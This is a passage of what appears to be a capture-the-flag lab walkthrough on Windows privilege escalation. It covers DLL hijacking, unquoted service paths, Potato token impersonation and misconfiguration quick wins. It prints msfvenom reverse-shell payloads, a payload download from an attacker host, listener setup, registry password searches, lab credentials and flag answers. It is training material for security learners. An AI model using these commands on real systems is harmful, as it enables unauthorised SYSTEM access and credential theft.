```x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll```

You can easily install the Mingw compiler using the ```apt install gcc-mingw-w64-x86-64``` command.

We have seen earlier that the application we target searches for a DLL named hijackme.dll. This is what our malicious DLL should be named.

You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.

Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: ```wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll```

We will have to stop and start the dllsvc service again using the command below:

```sc stop dllsvc & sc start dllsvc```

You can connect to the target machine using RDP on your attacking machine or launching it directly from your browser.

The credentials are as follows:
* Username: user
* Password: Password1

##### Connect with RDP
```bash
xfreerdp /dynamic-resolution +clipboard /u:user /p:Password1 /cert:ignore /v:10.10.157.19
```

##### Generate DLL
```bash
nano hijackme.c
# Copy code to hijackme.c
# Compile DLL
x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
# Copy DLL to target machine, C:\Temp
```

##### Restart Service
```bash
sc stop dllsvc & sc start dllsvc
```

##### Connect with RDP as Jack
```bash
xfreerdp /dynamic-resolution +clipboard /u:jack /p:Password1 /cert:ignore /v:10.10.157.19
```

```
Replicate the example explained above on the target machine.
> No answer needed
```

```
Modify the payload to change the password of the user jack
> No answer needed
```

```
Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?
> THM-8377492093
```

## Task 6 - Unquoted Service Path 

When a service starts in Windows, the operating system has to find and run an executable file. For example, you will see in the terminal output below that the "netlogon" service (responsible for authenticating users in the domain) is, in fact, referring to the C:\Windows\system32\lsass.exe binary.

```telnet
                Netlogon and its binary

C:\Users\user>sc qc netlogon
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: netlogon
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\lsass.exe
        LOAD_ORDER_GROUP   : MS_WindowsRemoteValidation
        TAG                : 0
        DISPLAY_NAME       : Netlogon
        DEPENDENCIES       : LanmanWorkstation
        SERVICE_START_NAME : LocalSystem

C:\Users\user>
```

In the example above, when the service is launched, Windows follows a search order similar to what we have seen in the previous task. Imagine now we have a service (e.g. srvc) which has a binary path set to C:\Program Files\topservice folder\subservice subfolder\srvc.exe

To the human eye, this path would be merely different than "C:\Program Files\topservice folder\subservice subfolder\srvc.exe". We would understand the service is trying to run srvc.exe.

Windows approaches the matter slightly differently. It knows the service is looking for an executable file, and it will start looking for it. If the path is written between quotes, Windows will directly go to the correct location and launch service.exe.

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append ".exe" and start looking for an executable, starting with the shortest possible path. In our example, this would be C:\Program.exe. If program.exe is not available, the second attempt will be to run topservice.exe under C:\Program Files\. If this also fails, another attempt will be made for C:\Program Files\topservice folder\subservice.exe. This process repeats until the executable is found.

Knowing this, if we can place an executable in a location we know the service is looking for one, it may be run by the service.

As you can understand, exploiting an unquoted service path vulnerability will require us to have write permissions to a folder where the service will look for an executable.

##### Finding Unquoted Service Path Vulnerabilities
Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;
1. Being able to write to a folder on the path
2. Being able to restart the service

If either of these conditions is not met, successful exploitation may not be possible.

The command below will list services running on the target system. The result will also print out other information, such as the display name and path.

```wmic service get name,displayname,pathname,startmode```

The command may show some Windows operating system folders. As you will not have "write" privileges on those with a limited user, these are not valid candidates.

Going over the output of this command on the target machine, you will notice that the "unquotedsvc" service has a path that is not written between quotes.

Once we have located this service, we will have to make sure other conditions to exploit this vulnerability are met.

You can further check the binary path of this service using the command below:

```sc qc unquotedsvc```

Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

```.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"```

The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.

The accesschk binary is on the desktop of the target system (MACHINE_IP)

We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service will try to run an executable with the name of the first word of the folder name.

We can use msfvenom (on the AttackBox) to generate an executable. The command below will wrap Meterpreter in an executable file.

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe```

The command above will generate a reverse shell. This means that it will try to connect back to our attacking machine. We will need to launch Metasploit and configure the handler to accept this connection. The terminal screen below shows a typical configuration. Please note that the LHOST value (attacking machine IP address, 10.9.6.195 in the example below) will be different and you may also change the LPORT (local port) if you have used a different port when generating the executable file. If the screen below seems unfamiliar, you can complete the Metasploit module to learn more about Metasploit.

```telnet
                msfconsole

msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8899
lport => 8899
msf6 exploit(multi/handler) > set lhost 10.9.6.195
lhost => 10.9.6.195
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899
```

Once you have generated and moved the file to the correct location on the target machine, you will need to restart the vulnerable service.

You can use the ```sc start unquotedsvc``` command to start the service.

You can connect to the target system (MACHINE_IP) using RDP or launch it directly in your browser.

The credentials are:
* Username: user
* Password: Password1

##### Connect with RDP
```bash
xfreerdp /dynamic-resolution +clipboard /u:user /p:Password1 /cert:ignore /v:10.10.97.249
```

##### Check for Unquoted Service
```bash
wmic service get name,displayname,pathname,startmode

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

##### Check for Write Privileges
```bash
python3 -m http.server 80


powershell
wget "http://10.13.25.242/THMWinPrivEscTools.zip" -outfile "THMWinPrivEscTools.zip"
# Extract
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\Common Files\"

C:\Program Files
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators


.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

C:\Program Files\Unquoted Path Service
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

##### Generate Reverse Shell Executable
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.25.242 LPORT=4444 -f exe > Common.exe

powershell
wget "http://10.13.25.242/Common.exe" -outfile "C:\Program Files\Unquoted Path Service\Common.exe"
```

##### Start Listener and Establish Reverse Shell
```bash
# From Attack Machine
nc -lnvp 4444

# From Target
sc start unquotedsvc
whoami
nt authority\system
```

##### Get Flag
```bash
dir flagUSP.txt /s

 Directory of C:\Users\Cora\Documents

10/14/2021  11:54 PM                16 flagUSP.txt


type C:\Users\Cora\Documents\flagUSP.txt
THM-636729273483
```

## Task 7 - Token Impersonation 

Service accounts, briefly mentioned in the introduction task, may have a higher privilege level than the low-level user you may have. In Windows versions before Server 2019 and 10 (version 1809), these service accounts are affected by an internal man-in-the-middle vulnerability. As you may know, man-in-the-middle (MitM) attacks are conducted by intercepting network traffic. In a similar fashion, higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation". Although it has led to several exploits, the impersonation rights were not a vulnerability.

In Windows versions after Server 2019 and Windows 10 (version 1809), impersonation rights were restricted. You can see below that a regular user does not have the "SeImpersonatePrivilege" privilege.

```telnet
                Regular User "whoami /priv" Output

C:\Users\user>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\user>
```

```telnet
                Admin User "whoami /priv" Output

C:\Users\admin>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled

C:\Users\admin>
```

Doing further research on token impersonation vulnerabilities, you will see a number of different exploits exist. These have whimsical names such as Hot Potato, Rotten Potato, Lonely Potato, Juicy Potato, etc. You will be able to decide on which "Potato" better suits your need depending on the version of the target system. While some of these exploits will run on the target system, others may require you to set up a fake server on the same network.

The first of these potato exploits was "Hot Potato", and it could help you have a better understanding of the fundamental idea behind these exploits.

Hot Potato: Steps 1 to 4
* Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.
* Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.
* Step 3: The target system will ask for a proxy configuration file (wpad.dat).
* Step 4: A malicious wpad.dat file is sent to the target.


Hot Potato: Steps 5 to 8
* Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).
* Step 6: The exploit will ask the target system to perform an NTLM authentication.
* Step 7: The target system sends an NTLM handshake.
* Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".



All requests are sent and received within the target system.

Microsoft published an update in the MS16-075 security bulletin to mitigate this exploit, and Hot Potato was followed by Rotten Potato. Rotten Potato uses a similar approach but leverages RPC.

Which "Potato" version you can use will vary depending on the target system's version, patch level and network connection limitation. While "Hot Potato" works within the target system, other versions may require network access over specific ports.
```
No answer is needed
> No answer needed
```

## Task 8 - Quick Wins 

Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.

##### Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or using a binary you can modify.
For this method to work, the scheduled task should be set to run with a user account with a higher privilege level than the one you currently have.

Scheduled tasks can be listed from the command line using the ```schtasks``` command, using the task scheduler, or, if possible, uploading a tool such as Autoruns64.exe to the target system.

##### AlwaysInstallElevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges if the installation requires administrator privileges.
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer```

```reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer```

Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible.
If these are set, you can generate a malicious .msi file using ```msfvenom```, as seen below.

```msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.

Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell.

```telnet
                Command Run on the Target System

C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

##### Passwords
We have seen earlier that looking for configuration or user-generated files containing cleartext passwords can be rewarding. There are other locations on Windows that could hide cleartext passwords.

**Saved credentials:** Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.

```cmdkey /list```

If you see any credentials worth trying, you can use them with the ```runas``` command and the ```/savecred``` option, as seen below.

```runas /savecred /user:admin reverse_shell.exe```

**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.

```reg query HKLM /f password /t REG_SZ /s```

```reg query HKCU /f password /t REG_SZ /s```

**Unattend files:** Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.
```
No answer needed.
> No answer needed
```

## Additional Resources
https://en.wikipedia.org/wiki/Kernel_(operating_system)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://github.com/sagishahar/lpeworkshop

https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

https://github.com/bitsadmin/wesng

https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya

https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya